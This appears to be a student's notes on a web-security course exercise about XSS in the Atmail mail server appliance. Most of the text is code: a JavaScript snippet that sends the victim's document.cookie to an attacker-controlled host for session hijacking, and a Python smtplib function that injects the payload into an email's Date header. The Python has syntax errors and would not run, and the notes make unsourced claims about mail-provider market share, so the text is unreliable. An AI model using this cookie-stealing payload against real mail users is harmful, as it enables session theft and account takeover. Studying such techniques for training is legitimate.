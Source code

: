 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE
The idea is mailservers can be vulnerable to xss, if you send a payload in the date or subject or body as form of iframe or javascript, you canexploit the vulnerability. Note: 99% of the world use about 4 main mail platforms, with gmail and outlook and yahoo basically accounting for over 90% and protonmail 8%. So, everything explained here is mostly theoretical. All mail servers won't accept iframe and the fields are sanitized. So, the only trick you have is still to trick people out of the mail through links. 

## session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```

## sending the payload
```python
import smtplib

def sendEmail(to,from,smtpsrv,payload):
  msg = 'From: attacker@mail.com\n'
  msg += To: victim@mail.com\n'
  msg += f'Date: {payload}\n'
  msg += 'Subject: pwnd\n'
  msg += 'Content-type: text/html\n\n'
  msg += 'something something something'
  msg += '\r\n\r\n'

  server = smtplib.SMTP(smtpsrv)
  try:
    server.sendmail(to, from, msg)
  except:
    pass
  server.quit()
```
